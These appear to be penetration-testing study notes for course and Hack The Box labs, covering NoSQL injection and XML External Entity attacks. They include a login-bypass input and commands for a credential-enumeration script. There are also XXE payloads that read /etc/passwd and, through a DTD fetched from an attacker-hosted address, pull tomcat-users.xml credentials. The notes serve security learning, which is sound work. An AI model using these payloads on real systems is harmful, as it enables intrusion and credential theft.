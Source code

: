 ## NOSQL Injection:  

	in burp, try: username[$ne]=..., password[$ne]=...
	https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
	If injection succeeds, enumerate accounts with: https://raw.githubusercontent.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/master/nosqli-user-pass-enum.py
	python3 mangoenum.py -u http://staging-order.mango.htb/ -up username -pp password -op login:login -ep username
		then: python3 mangoenum.py -u http://staging-order.mango.htb/ -up username -pp password -op login:login -ep password

## XML External Entity (XXE):  

	If there's an XML parser without proper input validation (API, etc.)
	Used for: enumeration; finding creds (Java)
		Some languages like PHP can lead to RCE
	Internal Entities:  <!ENTITY name "entity_value">, ex. <!ENTITY test "<entity-value>test value</entity-value>">
        External Entities:  
            Private:  <!ENTITY name SYSTEM "URI">, ex. <!ENTITY offsecinfo SYSTEM "http://www.offsec.com/company.xml">
            Public:  <!ENTITY name PUBLIC "public_id" "URI">, ex. <!ENTITY offsecinfo PUBLIC "-//W3C//TEXT companyinfo//EN" "http://www.offsec.com/companyinfo.xml">
        Parameter Entities:  <!ENTITY % name SYSTEM "URI">, ex. <!ENTITY % course 'AWAE'> then <!ENTITY Title 'Offensive Security presents %course;' >
        Prevent Payload Parsing:
            Private:  <!ENTITY name SYSTEM "URI" NDATA TYPE>
            Public:  <!ENTITY name PUBLIC "public_id" "URI" NDATA TYPE>
	XXE Example:
            <?xml version="1.0"?>
            <!DOCTYPE data [
            <!ELEMENT data ANY >
            <!ENTITY lastname SYSTEM "file:///etc/passwd">
            ]>
            <org.opencrx.kernel.account1.Contact>
             <lastName>&lastname;</lastName>
             <firstName>Tom</firstName>
            </org.opencrx.kernel.account1.Contact>
            If the lastName contents are included in a server response or we can retrieve its output, we can read files on the server.
	Output Formatting with CDATA:
            Host wrapper on attack box as wrapper.dtd:  <!ENTITY wrapper "%start;%file;%end;">
            <?xml version="1.0"?>
            <!DOCTYPE data [
            <!ENTITY % start "<![CDATA[">
            <!ENTITY % file SYSTEM "file:///home/student/crx/apache-tomee-plus-7.0.5/conf/tomcat-users.xml" >
            <!ENTITY % end "]]>">
            <!ENTITY % dtd SYSTEM "http://192.168.1.1/wrapper.dtd" >
            %dtd;
            ]>
            <org.opencrx.kernel.account1.Contact>
             <lastName>&wrapper;</lastName>
             <firstName>Tom</firstName>
            </org.opencrx.kernel.account1.Contact>

